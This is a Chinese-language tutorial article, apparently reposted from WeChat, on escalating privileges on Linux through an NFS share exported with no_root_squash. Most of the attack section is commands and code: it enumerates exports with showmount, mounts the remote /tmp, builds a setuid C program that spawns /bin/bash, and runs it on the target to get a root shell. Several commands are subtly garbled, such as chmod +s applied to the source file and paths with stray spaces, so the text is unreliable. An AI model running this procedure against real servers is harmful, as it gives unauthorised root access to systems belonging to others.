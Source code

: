 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/ij57dC8opaT2xJHYTBxBHw)

如果在服务器上具有低特权 shell，并且发现服务器中具有 NFS 共享，则可以使用它来升级特权。但是成功取决于它的配置方式。  

**目录**

```
1.什么是NFS？
2.什么是root\_sqaush和no\_root\_sqaush？
3.所需的工具和程序文件。
4.利用NFS弱权限。

```

**什么是 NFS？**

网络文件系统（NFS）是一个客户端 / 服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在  NFS  协议是几个分布式文件系统标准，网络附加存储（NAS）之一。

NFS 是基于 UDP/IP 协议的应用，其实现主要是采用远程过程调用 RPC 机制，RPC 提供了一组与机器、操作系统以及低层传送协议无关的存取远程文件的操作。RPC 采用了 XDR 的支持。XDR 是一种与机器无关的数据描述编码的协议，他以独立与任意机器体系结构的格式对网上传送的数据进行编码和解码，支持在异构系统之间数据的传送。  

**什么是 root\_sqaush 和 no\_root\_sqaush？**

Root Squashing（root\_sqaush）参数阻止对连接到 NFS 卷的远程 root 用户具有 root 访问权限。远程根用户在连接时会分配一个用户 “ nfsnobody ”，它具有最少的本地特权。如果 no\_root\_squash 选项开启的话”，并为远程用户授予 root 用户对所连接系统的访问权限。在配置 NFS 驱动器时，系统管理员应始终使用 “ root\_squash ” 参数。

注意：要利用此，no\_root\_squash 选项得开启。

**利用 NFS 并获取 Root Shell**

现在，我们拿到了一个低权限的 shell，我们查看 “ / etc / exports ” 文件。

/ etc / exports 文件包含将哪些文件夹 / 文件系统导出到远程用户的配置和权限。

这个文件的内容非常简单，每一行由抛出路径，客户名列表以及每个客户名后紧跟的访问选项构成：

\[共享的目录\] \[主机名或 IP(参数, 参数)\]

```
其中参数是可选的，当不指定参数时，nfs将使用默认选项。默认的共享选项是 sync,ro,root\_squash,no\_delay。
当主机名或IP地址为空时，则代表共享给任意客户机提供服务。
当将同一目录共享给多个客户机，但对每个客户机提供的权限不同时，可以这样：
\[共享的目录\] \[主机名1或IP1(参数1,参数2)\] \[主机名2或IP2(参数3,参数4)\]

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBG8BzNlVq8DbdZEtWUdclnBK87lUvEvKJyaorDVVGe3eficgM4KCVnL9iaamTUQh5LJ45oJd5Oc0bw/640?wx_fmt=png)

我们可以看到 / tmp 文件夹是可共享的，远程用户可以挂载它。

还有不安全的参数 “ rw ”（读，写），“ sync ” 和 “ no\_root\_squash ”

同样我们也可以使用 showmount 命令来查看。

```
showmount命令用于查询NFS服务器的相关信息
# showmount --help
 Usage: showmount \[-adehv\]
        \[--all\] \[--directories\] \[--exports\]
        \[--no-headers\] \[--help\] \[--version\] \[host\]
-a或--all
    以 host:dir 这样的格式来显示客户主机名和挂载点目录。
 -d或--directories
    仅显示被客户挂载的目录名。
 -e或--exports
    显示NFS服务器的输出清单。
 -h或--help
    显示帮助信息。
 -v或--version
    显示版本信。
 --no-headers
    禁止输出描述头部信息。
显示NFS客户端信息
 # showmount
显示指定NFS服务器连接NFS客户端的信息
 # showmount 192.168.1.1  #此ip为nfs服务器的
显示输出目录列表
 # showmount -e
显示指定NFS服务器输出目录列表（也称为共享目录列表）
 # showmount -e 192.168.1.1
显示被挂载的共享目录
 # showmount -d
显示客户端信息和共享目录
 # showmount -a
显示指定NFS服务器的客户端信息和共享目录
# showmount -a 192.168.1.1

```

这里不多说了

我们接下来在我们的攻击机上安装客户端工具

需要执行以下命令，安装 nfs-common 软件包。apt 会自动安装 nfs-common、rpcbind 等 12 个软件包

```
sudo apt install nfs-common
apt-get install cifs-utils

```

**然后输入命令**

```
showmount -e \[IP地址\]

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBG8BzNlVq8DbdZEtWUdclnqtblialQzJUJRv6ibARcJDuNmAbeic870bUf3UdGUyZmQbhKGR6k5tqCw/640?wx_fmt=png)  

创建目录以挂载远程系统。

```
mkdir / tmp / test

```

**在 / tmp/test 上装载 Remote/tmp 文件夹：**

```
mount -o rw，vers = 2 \[IP地址\]：/ tmp / tmp / test

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBG8BzNlVq8DbdZEtWUdclnh1eJpGQeObM8YLHl2ujHOL4ZrIWWbLDT1DGtdf4EBrkhCGEpBTwHbg/640?wx_fmt=png)  

**然后在 / tmp/test / 中。新建一个 c 文件。**

```
#include <stdio.h> 
#include <stdlib.h> 
#include <sys/types.h> 
#include <unistd.h> 
int main() { setuid(0); system("/bin/bash"); return 0; }

```

**也可以**

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/test/suid-shell.c

```

编译：

```
gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

```

赋权：

```
chmod + s /tmp/test/suid-shell.c

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBG8BzNlVq8DbdZEtWUdcln0LllMKPCCC66emWn9aK9tQU3dU4wSmA9e3NaPOibluR2GP5SicvNPe6A/640?wx_fmt=png)  

**好的，我们回到要提权的服务器上**

```
cd / tmp
./suid-shell

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBG8BzNlVq8DbdZEtWUdcln16AcnMyeRpXib4nGibdXNJ9ZfVs2z5kSftHsfLicWQuRKibiabh3bdvTIGw/640?wx_fmt=png)

可以看到是 ROOT 权限了

系列  

[**Linux 提权姿势一：滥用 SUDO 提权**](http://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247485792&idx=1&sn=f95b077a3ba53e5c6d6459e45324401d&chksm=fd879d0acaf0141ce11ac3c966cdc83614ed1d6b26e37945d9c459f13c5342ccdbd1740cd7de&scene=21#wechat_redirect)

渗透测试 红队攻防 免杀 权限维持 等等技术 

及时分享最新漏洞复现以及 EXP 国内外最新技术分享!!!

进来一起学习吧

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDC1QHAC8PAV6JaPBJno5cRxvqAVB1pm0tOZd3TQM7jCB5nTbnfa40GHHQFIWpFFRuHCCCdtykVQWQ/640?wx_fmt=jpeg)